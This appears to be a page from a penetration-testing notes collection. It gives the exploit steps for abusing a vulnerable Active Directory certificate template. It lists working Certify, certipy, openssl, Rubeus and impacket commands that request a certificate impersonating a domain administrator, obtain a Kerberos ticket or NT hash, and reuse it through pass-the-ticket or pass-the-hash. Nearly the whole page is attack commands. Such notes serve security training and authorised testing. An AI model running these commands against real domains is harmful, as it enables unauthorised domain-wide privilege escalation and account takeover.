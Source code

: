### Exploit

Reference: [HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#abuse)

Request the certificate specifying the `altname` as a Domain Admin such as `localadmin` then impersonate an administrator.

```sh
Certify.exe request /ca:dc.example.local\VULN-CA /template:VulnTemplate /altname:localadmin
certipy req 'example.local/username:password@ca.example.local' -ca 'VULN-CA' -template 'VulnTemplate' -upn 'administrator@example.local'
```

Then transform `.pem` to `.pfx` using `openssl`.

```sh
# Copy the content of the PEM then paste it to the cert.pem using editor.
nano cert.pem

# Convert PEM to PFX
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

After that we can request TGT using `Rubeus`.

```sh
Rubeus.exe asktgt /user:localadmin /certificate:cert.pfx /password:Password123! /ptt
# if you gave the password for "cert.pfx", you need to specify the password
Rubeus.exe asktgt /user:Administrator /password:password123 /certificate:cert.pfx /ptt
# or output the file
Rubeus.exe asktgt /user:Administrator /certificate:<Thumbprint> /outfile:ticket.kirbi

certipy auth -pfx administrator.pfx -username administrator -domain example.local -dc-ip <target-ip>
```

If you get the error like "Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)", sync the time with AD server.

```sh
sudo rdate -n <target-ip>
# or
ntpdate <target-ip>
```

Now we get the NT hash so we can login the target machine using this hash by **Pass-The-Hash**.  
Or if we outputs as `.kirbi`, crack it by `john`.

- **Crack TGT**

Please see [Kerberos TGT Cracking](kerberos-tgt-cracking.md).

- **Pass-The-Ticket**

```sh
impacket-ticketConverter ticket.kirbi ticke.ccache
```

